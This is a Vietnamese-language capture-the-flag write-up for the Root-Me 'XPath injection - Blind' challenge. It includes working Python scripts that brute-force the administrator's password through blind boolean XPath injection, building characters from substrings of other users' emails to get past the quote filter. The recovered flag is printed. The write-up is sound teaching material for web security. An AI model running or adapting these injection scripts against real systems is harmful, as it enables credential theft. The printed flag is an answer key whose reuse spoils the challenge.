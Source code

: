 ```diff
@@ Web-server Challenge @@
```

## XPath injection - Blind [75 Points ]

- Mục tiêu của challenge này là tìm cách tiêm vào trang web để thu được thông tin về mật khẩu của tài khoản **administrator**. Lướt qua ta thấy có trang *Member* cho phép chúng ta xem user profile. Nó thực hiện tìm kiếm thông tin của user qua userid mà chúng ta cung cấp trên đường dẫn.

  ![16](img/16.jpg)

  ​

- Thử nhập linh tinh vào thì xuất hiện ra lỗi Xpath như hình dưới.

  ![16-1](img/16-1.jpg)

  ​

- Vậy là ta nắm được câu query của trang web tới XML document. Để khai thác thêm thông tin, ta cần thực hiện các blind boolean query để brute-force các ký tự trong password của account **admin** mà ở đây có userid = 2. 

- Đầu tiên thử xem các ký tự có bị filter không, ta thử các từ ```and``` ,```<whitespace>```, ```or``` , ```string-length```, ..v..v thì thấy chỉ có filter bằng hàm addslash cho dấu ```'``` và ```"```. 

- Tiếp đó để biết được có node nào trong tài liệu có tên là ```password``` hay không, em thực hiện brute-force độ dài của node ```password``` thì thấy có kết quả => kết luận có node password trong document và độ dài của nó là 14.

  ```python
  import requests

  url = "http://challenge01.root-me.org/web-serveur/ch24/?action=user&userid=2 "
  for i in range(1,30):
    xpath = "and string-length(password)= " + str(i)
    r = requests.get(url=url + xpath)
    if ("John" in r.text):
      print("Length of passwd: ",i)
      break
  # => Result: Length of passwd:  14
  ```

- Để brute-force password mà không dùng ký tự, em đã thử hàm ```codepoints-to-string()``` tìm được trên google để đưa các ký tự ASCII vào thay thế, nhưng trang web phản hồi rằng không tìm thấy hàm này, tức version này của xpath không có hàm này. Đến đây thì hết các cách thông thường.

- Một ý tưởng mới để giải quyết vấn đề này là dùng các ký tự sẵn có của các user khác. Ví dụ:

  Muốn có chữ ```a```, ta có thể thay thế bằng cách dùng substring(\\\user[userid=3]\email,5,1) để lấy ký tự a trong email của user có id = 3 (```ric@ard.biz```). Mặc dù không có hết các ký tự ascii, nhưng ta có thể đoán thêm ở các vị trí còn thiếu sau, payload sẽ trông như thế này:

  ```python
  import requests
  url = "http://challenge01.root-me.org/web-serveur/ch24/?action=user&userid=2 "
  passwd = ''
  dictionary = {
    "a":"substring(//user[3]/email,5,1)",
    "b":"substring(//user[1]/email,9,1)",
    "c":"substring(//user[3]/email,3,1)",
    "d":"substring(//user[2]/email,6,1)",
    "e":"substring(//user[1]/email,3,1)",
    "g":"substring(//user[2]/email,12,1)",
    "h":"substring(//user[2]/email,3,1)",
    "i":"substring(//user[3]/email,2,1)",
    "J":"substring(//user[2]/email,1,1)",
    "l":"substring(//user[5]/email,2,1)",
    "m":"substring(//user[1]/email,14,1)",
    "n":"substring(//user[2]/email,4,1)",
    "o":"substring(//user[2]/email,2,1)",
    "r":"substring(//user[3]/email,1,1)",
    "s":"substring(//user[1]/email,1,1)",
    "t":"substring(//user[1]/email,2,1)",
    "v":"substring(//user[1]/email,4,1)",
    "y":"substring(//user[4]/email,5,1)",
    "z":"substring(//user[3]/email,11,1)",
    "0":"string(0)",
    "1":"string(1)",
    "2":"string(2)",
    "3":"string(3)",
    "4":"string(4)",
    "5":"string(5)",
    "6":"string(6)",
    "7":"string(7)",
    "8":"string(8)",
    "9":"string(9)",
    "@":"substring(//user[3]/email,4,1)",
    ".":"substring(//user[3]/email,8,1)",
    "u":"substring(//user[4]/account,2,1)",
    "j":"substring(//user[1]/email,7,1)",
    "E":"substring(//user[5]/email,1,1)",
    "S":"substring(//user[1]/username,1,1)"
  }
  for i in range(1,15):
    for j in dictionary.keys():
      xpath = "and substring(//user[userid=2]/password,{},1) = {}".format(i,dictionary[j])
      r = requests.get(url=url+xpath)
      if("John" in r.text):
        passwd+= j
        print(passwd)
        break
  ```

- Kết quả ta thu được password mặc dù không có đủ ký tự ascii để brute-force

  ![16-2](img/16-2.jpg)

  ```diff
  -- Flag là: ueiJ4a65@1.oS 
  ```

- *Note: Mặc dù độ dài của password lúc đầu ta brute-force là **14 ký tự**, nhưng chỉ tìm được 13 ký tự như trên, em submit thì vẫn được chấp nhận bình thường, em nghĩ là có gì đó vấn đề ở server của challenge mà em không tìm được nguyên nhân*